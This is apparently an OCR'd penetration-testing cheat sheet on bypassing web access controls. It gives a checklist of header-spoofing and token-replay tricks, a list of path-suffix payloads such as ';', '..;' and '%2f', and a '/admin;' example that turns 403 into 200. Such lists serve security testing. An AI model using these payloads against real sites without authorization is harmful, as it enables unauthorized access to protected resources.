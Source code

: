 
## Misc Authorization Bypass Techniques
- [ ] Bypass using `X-Original-URL`, `X-Forwarded-Host`
- [ ] Modify `Referer` or `Origin` headers to internal hosts
- [ ] Test using lower-privileged OAuth scopes
- [ ] Spoof source IP headers (`X-Forwarded-For: 127.0.0.1`)
- [ ] Switch HTTP protocol versions (e.g., HTTP/1.1 vs 2.0)
- [ ] Replay `Authorization` token from other user
- [ ] Switch between `mobile`, `admin`, and `internal` subdomains
- [ ] Invoke shadow/internal GraphQL mutations
- [ ] Reuse URLs or links shared in emails (forgot password, invite)
- [ ] Race condition between state change and access control

---

>Access control mechanisms are fundamental for securing web applications. However, certain techniques can be exploited to bypass these controls, potentially leading to unauthorized access to sensitive resources. In this section, we'll explore access control bypass techniques.

## 1- Appending Unusual Characters
Appending unusual characters at the end of file names can sometimes disrupt parsing logic in web applications, leading to access control bypass. Here are some common characters:
```
;
/
"
'
';
";
");
');
"]
)]}
%09
%20
%23
%2e
%2f
.
;
..;
;%09
;%09..
;%09..;
;%2f..
*
```

### Examples
Example 1: Semicolon Appended to File Name
Appending a semicolon (;) to the end of a file name:
```
site.com/admin 403
site.com/admin; 200
```
